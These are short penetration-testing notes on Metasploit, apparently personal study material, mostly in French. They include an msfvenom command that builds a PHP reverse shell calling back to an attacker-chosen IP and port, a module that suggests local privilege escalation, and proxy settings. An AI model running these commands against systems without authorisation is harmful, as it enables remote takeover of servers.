 > migrate explication
> cheatsheet
> msfvenom script generation explain
> difference between setg and set
> sessions -i <number>

```bash

 # rediriger les requettes vers Burp
 set PROXIES HTTP:127.0.0.1:8080
 set RPORT PORT # ou 80
```

```bash
# utilisation de msfvenom pour generer un reverse shell php
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

```bash
# privilege escalation audit and suggestion
use post/multi/recon/local_exploit_suggester
```


